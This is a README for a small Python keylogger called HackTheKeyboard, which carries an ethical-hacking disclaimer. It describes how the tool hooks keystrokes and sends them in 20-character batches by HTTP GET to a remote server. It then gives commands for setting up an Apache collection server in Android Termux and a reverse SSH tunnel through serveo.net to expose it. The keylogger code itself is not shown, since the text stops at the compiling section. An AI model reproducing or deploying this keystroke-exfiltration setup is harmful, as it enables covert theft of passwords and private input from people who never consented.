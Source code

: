 # HackTheKeyboard
<h3>A tiny keylogger coded with just 15 lines of Python script, which captures keystrokes and sends them to your web server of your choice.</h3>

<b>First Thing First</b>: This keylogger project is prepared for those who would like to understand the working and behaviour of keyloggers, reverse engineering the compiled version of the code to find kill-switches and build IOCs/Signatures, ethically test on systems for the purpose of Ethical Hacking/Penetration Testing such as testing the bypasses and detection by EDR, SIEM, HIPS etc.
The program should not be used for any illegal activities such as running the compiled version of this code in a user machine without his/her consent, distributing it by means of spamming/phishing campaigns etc.

<b>How stuff works?</b>

This KeyLogger uses two main packages (Keyboard and Requests)

a) Keyboard package contains pre-built classes and functions which acts as hook procedures to the system kernal using which it can intercept events, such as messages, mouse actions, and keystrokes. A package function known as read_key() runs in an infinite while loop capturing all keys into a string variable in an increamental manner upto 20 characters.

b) Once it captures all 20 keystrokes, it uses Requests package function requests.get("URL") to send the captured keystroke strings via HTTP packet using GET method directly into your chosen web server such as Apache. You can prepare your server in your Termux Environment running into Android Phone. The keystrokes are then stored in the webserver access log file as a normal HTTP GET request entries. The string variable is re-initialized and starts filling up again while in the loop.
 

<b>Setting up the Server</b>
Apache Webserver is highly recomended for its simplicity but you can use any webserver, given that it logs the incomming requests into a log file.

Here is an example of setting up environmrnt in Android Termux Environment

1) Install Apache -> `apt-get install apache2`

2) start Apache -> `apachectl start`
   Note: Ignore the warnings!!!

3) Install Open SSH -> `pkg install openssh` or `apt-get install openssh`

4) Open Reverse HTTP Tunnel to Serveo.net -> `ssh -R 80:localhost:8080 serveo.net`
   Note: 8080 is the deafault local port of apache, and port 80 will be the incomming port


<b> Editing and Compiling the Keylogger Python file</b>



 

